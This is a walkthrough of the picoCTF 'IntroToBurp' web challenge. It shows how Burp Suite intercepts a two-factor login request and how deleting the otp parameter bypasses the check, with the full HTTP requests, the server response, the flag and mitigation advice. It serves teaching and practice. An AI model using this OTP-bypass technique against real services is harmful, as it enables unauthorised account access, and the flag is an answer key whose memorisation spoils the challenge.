 # [IntroToBurp](https://play.picoctf.org/practice/challenge/419)

## Challenge Information

- **Category**: Web Exploitation
- **Difficulty**: Easy
- **Description**: Try here to find the [flag](http://titan.picoctf.net:63062/)

## Solution Overview

This challenge introduces the use of Burp Suite to intercept and manipulate HTTP requests. The goal is to bypass a two-factor authentication (2FA) system by intercepting and modifying the authentication request.

## Hints

1. **Try using burpsuite to intercept request to capture the flag.**
2. **Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.**

## Detailed Walkthrough

### Step 1: Understanding the Challenge

The website presents a registration form followed by a 2FA authentication page. The challenge hints suggest that we need to intercept and modify requests using Burp Suite to bypass security controls.

### Step 2: Setting Up Burp Suite

First, we need to configure Burp Suite:
1. Open Burp Suite
2. Configure the proxy settings (typically 127.0.0.1:8080)
3. Configure your browser to use this proxy
4. Ensure intercept is turned on in Burp Suite

### Step 3: Completing the Registration Form

Navigate to the challenge URL and fill out the registration form with any values:
- Full Name: (any name)
- Username: (any username)
- Phone Number: (any phone number)
- City: (any city)
- Password: (any password)

Submit the form to proceed to the 2FA authentication page.

### Step 4: Intercepting the 2FA Authentication Request

On the 2FA page, enter any 4-digit OTP (e.g., "0000") and submit the form. Burp Suite will intercept this request before it reaches the server.

The intercepted request looks like this:

```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:63062
Content-Length: 8
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://titan.picoctf.net:63062
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:63062/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: session=[session-cookie-value]
Connection: keep-alive

otp=0000
```

### Step 5: Manipulating the Request

Based on the hint about "mangling the request," we need to modify the intercepted request. Looking at the request body, we see `otp=0000`. The vulnerability is that the server might not properly validate this parameter.

Send the request to Burp Suite's Repeater (right-click and select "Send to Repeater"), then:
1. Remove the `otp=0000` parameter from the request body
2. Keep the request line empty (don't remove the line itself)
3. Send the modified request

The modified request looks like this:

```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:63062
Content-Length: 8
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://titan.picoctf.net:63062
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:63062/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: session=[session-cookie-value]
Connection: keep-alive


```

### Step 6: Retrieving the Flag

After sending the modified request, the server response contains:

```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Wed, 09 Apr 2025 13:14:32 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 104
Vary: Cookie
Connection: close

Welcome, asd you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_6bffad21}
```

The flag is revealed in the response: `picoCTF{#0TP_Bypvss_SuCc3$S_6bffad21}`

## Tools and Resources Used

- **Burp Suite**: Web vulnerability scanner and proxy tool
- **HTTP Knowledge**: Understanding of HTTP requests and responses

## Flag

```
picoCTF{#0TP_Bypvss_SuCc3$S_6bffad21}
```

## Learning Points

- **Request Interception**: Using Burp Suite to intercept HTTP requests before they reach the server.
- **Request Manipulation**: Modifying request parameters to test application security.
- **Authentication Bypass**: Understanding how improper validation of authentication parameters can lead to security vulnerabilities.
- **HTTP Protocol**: Gaining deeper understanding of HTTP request/response structure.

## Mitigation Strategies

In real-world applications, these vulnerabilities can be prevented by:

- **Server-side Validation**: Ensuring all required parameters are present and valid.
- **Input Sanitization**: Properly validating and sanitizing all user input.
- **Proper Authentication Flow**: Implementing secure authentication processes that can't be bypassed.
- **Session Management**: Implementing proper session validation to prevent unauthorized access.
- **Security Headers**: Implementing security headers to protect against common web vulnerabilities.

## References

- [Burp Suite Documentation](https://portswigger.net/burp/documentation)